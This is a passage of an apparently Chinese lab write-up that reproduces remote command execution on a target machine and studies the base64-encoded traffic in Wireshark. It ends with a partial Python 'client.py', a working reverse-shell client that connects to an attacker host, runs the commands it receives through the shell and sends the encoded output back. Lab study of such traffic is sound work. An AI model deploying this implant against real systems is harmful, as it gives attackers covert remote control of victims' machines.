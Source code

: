可以看到已成功与攻击机建立连接

![image-20191217214541766](C:\Users\32168\AppData\Roaming\Typora\typora-user-images\image-20191217214541766.png)

开启wireshark监听流量并执行Windows dos 命令

攻击机输入calc打开靶机的系统计算器

可以看到整个过程建立了两个HTTP连接两个TCP连接

![image-20191217215206553](C:\Users\32168\AppData\Roaming\Typora\typora-user-images\image-20191217215206553.png)

并成功打开了靶机的计算器

![image-20191217214931320](C:\Users\32168\AppData\Roaming\Typora\typora-user-images\image-20191217214931320.png)



追踪TCP流以及HTTP流可以看到内容一样

![image-20191217215527442](C:\Users\32168\AppData\Roaming\Typora\typora-user-images\image-20191217215527442.png)

![image-20191217215549185](C:\Users\32168\AppData\Roaming\Typora\typora-user-images\image-20191217215549185.png)

于流量中可以看到Y2FsYw==是base64加密后的内容

base64解密后即可看到刚刚执行的命令calc

![image-20191217215747147](C:\Users\32168\AppData\Roaming\Typora\typora-user-images\image-20191217215747147.png)

于此整个过程复现结束

------

## Encryption Script of python

> client.py

```python
import base64
import argparse
import socket
import subprocess
import sys
import time

def connection(host, port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,int(port)))
    while True:
        data = s.recv(4096)
        try:
            data = decryption_req(data).decode()
            comRst = subprocess.Popen(data,shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
            m_stdout, m_stderr = comRst.communicate()
            rst = m_stdout.decode(sys.getfilesystemencoding()).encode()
            s.send(encryption_req(rst))
        except Exception as e:
            s.send(encryption_req(str(e).encode()))

        time.sleep(1)
    s.close()

# 加密
def encryption_req(data):
    # 可以采用任何加密或编码方式
    data = base64.b64encode(data).decode()
```